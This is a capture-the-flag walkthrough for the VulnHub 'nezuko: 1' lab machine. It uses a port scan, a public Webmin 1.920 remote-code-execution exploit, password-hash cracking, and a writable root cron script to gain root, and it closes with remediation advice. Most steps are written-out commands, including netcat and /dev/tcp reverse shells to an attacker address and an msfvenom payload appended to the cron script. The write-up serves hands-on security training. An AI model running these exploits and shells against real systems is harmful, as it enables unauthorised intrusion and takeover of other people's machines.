





# nezuko: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.105 (adjust for your network) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Flags** | nezuko.txt (user), /root/root.txt (root) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/nezuko-1,352/) |

## Attack Summary

nmap → ports 22/80/13337 → Webmin 1.920 on port 13337 → searchsploit RCE (EDB-47293) → shell as nezuko → /etc/passwd hash cracked (john) → su zenitsu → writable root-run script (cron) → msfvenom payload appended → root shell

## Methodology

1. Network discovery and port scan
2. Webmin RCE exploit (EDB-47293)
3. User flag and /etc/passwd hash cracking
4. Lateral movement to zenitsu
5. Cron script injection for root

---

## Step 1: Network Discovery

```bash
sudo netdiscover
nmap -p- -A 192.168.1.105
```

Open ports:
```
22/tcp    open  SSH
80/tcp    open  HTTP
13337/tcp open  Webmin 1.920
```



---

## Step 2: Webmin Enumeration

Browse to `https://192.168.1.105:13337` — Webmin login panel.



Search for a known exploit:

```bash
searchsploit Webmin 1.920
# 47293.sh — Webmin 1.920 - 'rpc.cgi' Remote Code Execution (Authenticated)
searchsploit -m 47293
```

---

## Step 3: RCE via Webmin Exploit

Edit the exploit to add a reverse shell payload:

```bash
nano 47293.sh
# In the payload section, replace or add:
# nc -e /bin/bash 192.168.1.106 1337
```

Start listener:

```bash
nc -lvp 1337
```

Run the exploit:

```bash
sh 47293.sh https://192.168.1.105:13337
```



Stable shell as `nezuko`. Upgrade TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Read user flag:

```bash
cd ~
ls
cd from_zenitsu
cat nezuko.txt
```

---

## Step 4: Hash Cracking and Lateral Movement

Read the password file:

```bash
cat /etc/passwd
```

User `zenitsu` has a crackable hash. Copy the zenitsu hash line to your attacker:

```bash
echo 'zenitsu:$1$...:1001:1001:...' > zenitsu.hash
john zenitsu.hash --show
```



Password: **meowmeow**

```bash
su zenitsu
# Password: meowmeow
```

---

## Step 5: Cron Script Injection (Root)

Enumerate home directory:

```bash
cd ~
ls
cd to_nezuko
ls -la send_message_to_nezuko.sh
```

The script is writable and runs as root on a schedule. Generate a reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.106 lport=1234 R
```

Append the payload to the script:

```bash
echo "0<&60-;exec 60<>/dev/tcp/192.168.1.106/1234;sh <&60 >&60 2>&60" >> send_message_to_nezuko.sh
```

Start listener:

```bash
nc -lvp 1234
```

Wait for cron to trigger (or trigger manually if writable):

```bash
id
# uid=0(root) gid=0(root)
cd /root
cat root.txt
```



---

## Lessons Learned

1. **Webmin RCE (EDB-47293)** is a critical unauthenticated/authenticated exploit — keep Webmin patched or remove it
2. **Readable /etc/passwd** with legacy DES/MD5 hashes allows offline password cracking
3. **World-writable cron scripts** running as root are a classic privesc vector
4. Running services on non-standard ports (13337) does not provide security through obscurity

## Remediation

| Vulnerability | Fix |
|---|---|
| Webmin 1.920 RCE | Update Webmin to latest version; restrict to localhost if not needed externally |
| Readable /etc/passwd hashes | Use shadow passwords (`/etc/shadow`); enforce strong password policy |
| Writable root cron script | `chmod 750 send_message_to_nezuko.sh; chown root:root ...` |
| Port 13337 exposed | Firewall Webmin; use VPN/bastion for admin access |
